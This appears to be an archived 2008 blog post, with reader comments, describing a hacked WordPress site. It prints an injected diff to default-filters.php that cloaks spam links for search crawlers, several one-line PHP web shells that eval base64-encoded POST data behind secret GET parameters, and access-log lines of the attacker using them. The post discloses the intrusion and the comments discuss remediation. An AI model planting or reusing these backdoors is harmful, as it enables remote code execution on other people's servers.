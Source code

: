 ```yaml
---
title: wpc7c16b8466d864eeefd20050625c7775
comments:
  - author: Albert
    date: 02/25/2008 12:57:10 PM
    text: >
      I've added a bevy of IP CIDR blocks to my POST restrictions, and I'm definitely going to review all of Wordpress for this.
  - author: Albert
    date: 02/25/2008 06:40:58 PM
    text: >
      As far as I can tell, this is a well know vulnerability, and Automattic has since fixed the issue. In my case, to remedy the situation, I changed the permissions to read only in wp-includes, wp-admin, as well as reviewed all the files to remove the injected scripts.
  - author: Michi
    email: fritzbrause@hotmail.com
    date: 03/06/2008 08:26:46 PM
    text: >
      I found this by searching "194.110.162.23" because my wordpress got hijacked as well. I stil don't really know what and how that happened. Do you have any more information? How did they get access?
  - author: Albert
    date: 03/06/2008 09:32:00 PM
    text: >
      Hi Michi, there are probably a bunch of different ways its done, but in my case, here's what I *think* happened:<br/><br/>1. Abuser registered and gained access to some basic functionality -or- used a cookie to execute some malicious code, not sure<br/>2. My server files had incorrect permissions - the web server was able to write to the wp-includes directory and files<br/>3. Abuser modified files to act as a gateway to execute their own php scripts (and shell scripts?) on server<br/><br/>I made several changes to my setup, an important one being to change all the wordpress php files to be only readable by the webserver.
date: 2008-02-25
tags: wordpress
---
```

<pre>--- default-filters.php (revision 6)
+++ default-filters.php (working copy)
@@ -42,6 +42,26 @@ add_filter('comment_flood_filter', 'wp_throttle_comment_flood', 10, 3);
++add_action('wp_footer','wpc7c16b8466d864eeefd20050625c7775');
+function wpc7c16b8466d864eeefd20050625c7775() {
+        $seau=array("google","yahoo","slurp","msn","live","ask","altavista","aol");
+       $sebot=""; foreach($seau as $ua) if(strpos(strtolower($_SERVER['HTTP_USER_AGENT']),$ua)!==false){ $sebot="1"; break; }
+       if(!($sebot==1 && sizeof($_COOKIE)==0)) return;
+       @include('./wp-includes/class-mail.php');
+       if(sizeof($wparr)>0){
+               shuffle($wparr);
+               echo "<div id=\"_wp_footer\">";
+               foreach($wparr as $k=>$v){
+                       echo "<a href=\"".$v['url']."\" title=\"".ucwords($v['key'])."\">".ucwords($v['key'])."</a>\n";
+                       if($i++==$inum) break;
+               }
+               echo "</div>".$_footer;
+       }
+}
+++</pre>

<pre>&lt;?php if($_GET['f41887163354da50']=="28cbddc8f3bcd0f7"){ eval(base64_decode($_POST['file'])); exit; } ?>&lt;?php if($_GET['6fed0a04901ae41f']=="a1ceef3a748b981b"){ eval(base64_decode($_POST['file'])); exit; } ?>&lt;?php if($_GET['666a6114308099d3']=="a5522ccd36231771"){ eval(base64_decode($_POST['file'])); exit; } ?>&lt;?php if($_GET['970a0ddc6270e0ca']=="178d4b7fa8fc73a4"){ eval(base64_decode($_POST['file'])); exit; } ?>&lt;?php if($_GET['476cec30ae48ed13']=="1682480ecf14ff65"){ eval(base64_decode($_POST['file'])); exit; } ?></pre>

Bad news. Who is responsible?

<pre>www.infonomix.org 194.110.162.23 [25/Feb/2008:07:21:06 -0500] "POST /blog/wp-includes/default-filters.php?970a0ddc6270e0ca=178d4b7fa8fc73a4 HTTP/1.1" 200 179

www.infonomix.org 194.110.162.23 [25/Feb/2008:07:21:07 -0500] "POST /blog/ HTTP/1.1" 200 27176</pre>

¥

